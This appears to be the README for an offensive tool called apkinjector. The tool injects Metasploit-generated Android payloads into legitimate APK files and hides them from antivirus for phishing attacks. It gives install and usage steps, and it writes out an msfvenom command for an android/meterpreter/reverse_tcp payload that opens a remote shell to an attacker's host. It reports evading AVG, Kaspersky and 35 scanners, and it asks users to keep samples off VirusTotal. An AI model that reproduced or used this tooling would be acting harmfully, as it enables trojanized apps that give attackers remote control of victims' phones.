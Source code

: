 # apkinjector
Android APK Antivirus evasion for msfvenom generated payloads to inject into another APK file for phishing attacks.
<br><br>
<b> -- Please do not upload "injected" files to VirusTotal.com -- </b><br>
<br>
<br>
<b>Verified with 3 apps to work, but the automated injection on Facebook was unable to locate the .smali file to inject into. After this, I found there can be many differences between each package so allowing for manual input of the .smali to inject into was needed. Needs further testing, debugging, and refining. As of right now, it still appears to get the job done.</b>
<br><br>
<b>Setup:</b><br>
chmod +x apkinjector<br>
mv apkinjector /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<b>NOTE:</b> If wanting to customize each signature, then remove the keystore before running the script.<br>
<br>
<b>Usage:</b><br>
apktool \<payload>.apk \<original>.apk<br>
<br>
<b>Input:</b><br>
This script takes a msfgenerated payload as input along with an .apk you want to inject into.<br>
To generate the payload: msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT<PORT> -o \<payload>.apk<br>
<br>
<b>Output:</b><br>
injected_\<original>.apk<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 16Feb17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload and /tmp/original directories to see the file structure that was compiled.<br>
